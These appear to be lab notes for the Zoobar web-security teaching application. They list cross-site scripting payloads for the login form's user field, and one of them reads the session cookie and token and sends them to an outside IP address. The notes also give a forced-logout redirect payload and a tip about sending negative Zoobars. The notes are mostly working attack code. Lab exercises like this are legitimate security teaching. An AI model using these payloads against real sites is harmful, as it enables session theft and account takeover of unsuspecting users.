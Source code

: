 - This payload may be applied to the **user** field in the login screen
```html
    " type="text" > <script> alert("hi");</script> <input style="none
```

- Above payload may **insert a textbox** in the output page, you may try : 
```html
    " type="text" > <script>  alert("hi") ; </script> <input type="hidden
```

- You may also try to send **negetive Zoobars** to the receiver. That fetches you zoobars

- After the user is login into the portal, Server genrates the **cookie**.
    - Cookies can be stolen from the same XSS vulnerability in textbox.
    - But this time we will inject script in **user textbox**
    ```html
        " size=10> <script> alert(document.cookie);</script> <input type="hidden
    ```
    - More advance way is not to alert the user, rather send it to server.
    ```html
        " size=10> 
            <script>
                var xmlreq=new XMLHttpRequest(); 
                var user = document.cookie.split('#')[0];
                var token = document.cookie.split('#')[1];
                var url="http://172.27.21.91:8989?payload="+"user="+user+"&token="+token;
                xmlreq.open('GET',url,true);
                xmlreq.send();
            </script>
        <input type="hidden
    ```

- Can we make user logout of the Machine
    ```html
        " size=10> 
            <script>
		setTimeout(function(){window.location="http://localhost:8080/zoobar/index.cgi/logout"}, 2000);
    	   </script>
    	   <input type="hidden
    	<input type="hidden
    ```
